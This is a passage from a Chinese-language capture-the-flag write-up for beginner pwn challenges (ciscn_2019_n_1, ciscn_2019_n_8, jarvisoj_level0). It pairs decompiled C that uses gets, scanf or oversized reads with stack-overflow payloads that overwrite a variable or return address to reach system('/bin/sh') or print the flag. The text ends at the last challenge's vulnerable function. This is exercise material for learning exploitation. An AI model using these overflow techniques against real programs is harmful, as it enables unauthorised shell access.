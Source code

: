 程序会打印出函数`sub_40060D`的地址，此函数调用了`system('/bin/sh')`

由于是64位程序，rbp大小为8，故`payload = 'a' * 0x48 + sub_addr`

## ciscn_2019_n_1

危险函数`gets`，利用它通过覆盖掉`v2`的值；`v1`与`v2`距离为`0x2c`，`11.28125`的二进制表示是`0x41348000`
故`payload = 'a' * 0x2c + p64(0x41348000)`

```c
int func()
{
  int result; // eax
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    result = system("cat /flag");
  else
    result = puts("Its value should be 11.28125");
  return result;
}
```

## ciscn_2019_n_8

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  //...
  puts("What's your name?");
  __isoc99_scanf("%s", var, v4, v5);
  if ( *(_QWORD *)&var[13] )
  {
    if ( *(_QWORD *)&var[13] == 17LL )
      system("/bin/sh");
  }
  //...
}
```

只需要使得`int64_t(var[13:21])`的值为17即可；考虑字节序即`var[13]=17, var[14:21]=0`

`payload = p32(17)*14 + p32(0)*7`

## jarvisoj_level0

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
```
